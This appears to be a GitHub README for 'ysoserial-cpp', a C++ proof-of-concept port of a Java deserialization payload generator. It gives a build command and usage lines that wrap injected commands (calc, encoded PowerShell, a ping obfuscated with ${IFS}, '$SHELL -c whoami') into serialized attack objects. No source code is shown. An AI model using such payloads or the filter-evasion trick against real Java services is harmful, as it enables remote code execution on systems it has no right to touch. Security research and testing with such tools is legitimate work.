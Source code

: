 # ysoserial-cpp


```
      .                                                                     ...                        ..    
  .x88888x.                                                ..           .zf"` `"tu               . uW8"      
 :8**888888X.  :>               u.    u.      u.    u.    @L           x88  day '8N.             `t888       
 f    `888888x./       .u     x@88k u@88c.  x@88k u@88c. 9888i   .dL   888k     d88&       u      8888   .   
'       `*88888~    ud8888.  ^"8888""8888" ^"8888""8888" `Y888k:*888.  8888N.  @888F    us888u.   9888.z88N  
 \.    .  `?)X.   :888'8888.   8888  888R    8888  888R    888E  888I  `88888 9888%  .@88 "8888"  9888  888E 
  `~=-^   X88> ~  d888 '88%"   8888  888R    8888  888R    888E  888I    %888 "88F   9888  9888   9888  888E 
         X8888  ~ 8888.+"      8888  888R    8888  888R    888E  888I     8"   "*h=~ 9888  9888   9888  888E 
         488888   8888L        8888  888R    8888  888R    888E  888I   z8Weu        9888  9888   9888  888E 
 .xx.     88888X  '8888c. .+  "*88*" 8888"  "*88*" 8888"  x888N><888'  ""88888i.   Z 9888  9888  .8888  888" 
'*8888.   '88888>  "88888%      ""   'Y"      ""   'Y"     "88"  888  "   "8888888*  "888*""888"  `%888*%"   
  88888    '8888>    "YP'                                        88F        ^"**""    ^Y"   ^Y'      "`      
  `8888>    `888            @h0ffy                               98"                                          
   "8888     8%                2025                             ./"                                            
    `"888x:-"                                                ~`                                            

```



## ysoserial-cpp ( PoC )
Implementation of object serializations an weaponizing in cpp similar functionalitity ( a lost day... than yoserial )

GNU GPL3 License ( JennyLab OpenSource )
    

### Build

```
g++ -std=c++17 -O2 -o ysoserial-cpp ysoserial.cpp
```


### Payload inject execution commands abusing serialization
`./ysoserial-cpp templates "cmd /c calc"`

### Encoding

```
./ysoserial-cpp object1 "powershell -enc <base64_command>"
```
        
### Obfucation 

```
./ysoserial-cpp object2 "p\${IFS}ing\${IFS}8.8.8.8"
```
        
### Inyecting ENV

```
./ysoserial-cpp templates "\$SHELL -c 'whoami'"
```




## Code "ysoserial-cpp.cpp"
```
  ysoserial.cpp   # ysoserial-cpp
  ├── JavaSerialization   # Constants and types
  ├── JavaPayloadGen # Main class to make and object in C++ to serialize this serialization with provide and destination in seralize... Seria... Lize!!!
```                                                           
